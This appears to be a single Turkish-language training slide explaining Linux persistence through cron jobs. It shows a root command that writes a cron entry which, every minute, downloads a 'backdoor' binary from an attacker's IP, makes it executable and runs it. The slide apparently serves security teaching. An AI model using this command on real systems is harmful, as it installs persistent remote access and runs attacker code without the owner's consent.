

# Backdoor: cron jobs
Cron, Linux/UNIX benzeri işletim sistemlerinde, Görev Zamanlayıcının (Task Scheduler) Windows'taki gibi belirli bir işi veya görevi düzenli aralıklarla gerçekleştirmek için kullanılan bir özelliktir.
Yandaki görev, her dakika bir kere olmak üzere, saldırganın makinesinden 'backdoor' adlı kötü amaçlı bir ikili dosyayı indirir. Daha sonra, bu backdoor dosyasını çalıştırır.
Görev, /tmp dizinine giderek 'backdoor' adlı kötü amaçlı dosyayı saldırganın makinesinden indirir.
İndirilen dosyaya yürütme izni verilir ve ardından bu dosya çalıştırılır.
root@pinkys-palace:~# echo '* * * * * root cd /tmp; wget 192.168.2.103/backdoor && chmod +x backdoor && ./backdoor' > /etc/cron.d/backdoor
Kaynak: Fahmi FJ where Linux Backdoors and Where to Find Them  on github